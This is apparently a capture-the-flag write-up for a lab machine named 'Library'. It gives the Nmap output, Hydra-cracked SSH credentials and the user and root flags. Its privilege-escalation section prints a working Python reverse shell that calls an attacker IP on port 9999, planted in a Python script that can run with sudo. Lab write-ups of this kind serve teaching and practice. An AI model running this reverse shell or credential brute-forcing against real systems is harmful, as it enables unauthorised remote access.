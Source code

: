 # Library

```bash
export ip=10.10.153.254
```
## Nmap
```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2020-07-08 16:22 +0430
Nmap scan report for 10.10.153.254
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Potential Username
```
meliodas 
```

## Robots.txt
```
User-agent: rockyou 
Disallow: /
```

## Hydra
```bash
[22][ssh] host: 10.10.153.254   login: meliodas   password: iloveyou1
```

## SSh
```bash
Username: meliodas
Password: iloveyou1
```

## Flag User
```bash
6d488cbb3f111d135722c33cb635f4ec
```

## Privilage Escalation
* By having root privilage to run /melisodas/back.py, we can modify to have a reverse shell.
* First, rename it via mv bak.py to bak2.py
* Second, create a file and name it bak.py and paste the below code in.
* Run it via ```sudo /usr/bin/python3 /home/meliodas/bak.py```

```python
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.9.54.225", 9999))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```

## Root Flag
```
e8c8c6c256c35515d1d344ee0488c617
```

![hacked by Robograder](./images/HaCkeDByMe.png)